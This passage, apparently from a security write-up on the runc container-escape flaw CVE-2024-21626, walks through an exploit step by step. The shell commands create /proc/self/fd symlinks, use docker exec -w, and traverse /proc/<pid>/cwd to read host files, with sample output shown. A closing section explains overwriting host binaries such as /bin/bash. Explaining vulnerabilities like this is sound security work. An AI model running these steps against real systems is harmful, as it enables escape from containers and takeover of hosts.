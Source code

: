 In the second attack `runc exec` is exploited. In this case the attacker has direct access to a container and it replace a known mounted path to a symlink point the still opened fd.

Once the administrator will call `runc exec` with the `-w` argument to the given path, the attacker can open `/proc/$exec_pid/cwd` to get access to the host filesystem.

```bash
# terminal 1
# run container
demo@demo-pc:~$ sudo docker run --name cve-2024-21626 \
                                --rm -it debian:bookworm
# create symlinks
root@d98de5a852d7:/# ln -sf /proc/self/fd/8/ /foo
root@d98de5a852d7:/# ln -sf /proc/self/fd/8/ /bar
```
<br>

```bash
# terminal 2: exec inside the container and set working directory
sudo docker exec -it -w /bar cve-2024-21626 sleep 120
```
<br>

Now the attacker has to find the right $exec_pid. Once found thanks to the path traversal technique it is possible to reach the host filesystem.

```bash
# terminal 1: find actula pid with the right cmdline
root@d98de5a852d7:/# ls -f /proc
.    irq   kmsg   kcore   mdstat   cpuinfo  sysvipc   softirqs  bootconfig  execdomains    sysrq-trigger      15
..   net   misc   locks   mounts   devices  version   zoneinfo  interrupts  filesystems    version_signature
fb   sys   mtrr   swaps   uptime   ioports  consoles  buddyinfo  kpagecount  kpagecgroup    self
fs   tty   scsi   asound  vmstat   loadavg  kallsyms  diskstats  kpageflags  vmallocinfo    thread-self
bus  acpi  stat   crypto  cgroups  meminfo  pressure  key-users  partitions  pagetypeinfo   1
dma  keys  iomem  driver  cmdline  modules  slabinfo  schedstat  timer_list  dynamic_debug  9
    
root@d98de5a852d7:/# cat /proc/9/cmdline 
sleep120

# read host filesystem files
root@d98de5a852d7:/# cat /proc/9/cwd/../../../../../../../../../etc/hostname
demo-pc

# read container filesystem files
root@d98de5a852d7:/# cat /etc/hostname 
d98de5a852d7
```
<br>
{{< img src="images/scenario2.png" align="center" title="Attack 2">}}

## 3.4 Attacks 3a and 3b: process.args host binary overwrite attack
> (These are modifications of attacks 1 and 2, constructed to overwrite a host binary by using `execve` to bring a magic-link reference into the container.) <br><br>
Attacks 1 and 2 can be adapted to overwrite a host binary by using a path like `/proc/self/fd/7/../../../bin/bash` as the `process.args` binary argument, causing a host binary to be executed by a container process. The `/proc/$pid/exe` handle can then be used to overwrite the host binary, as seen in [CVE-2019-5736](https://github.com/advisories/GHSA-gxmr-w5mj-v8hh) (note that the same `#!` trick can be used to avoid detection as an attacker). As the overwritten binary could be something like `/bin/bash`, as soon as a privileged user executes the target binary on the host, the attacker can pivot to gain full access to the host.
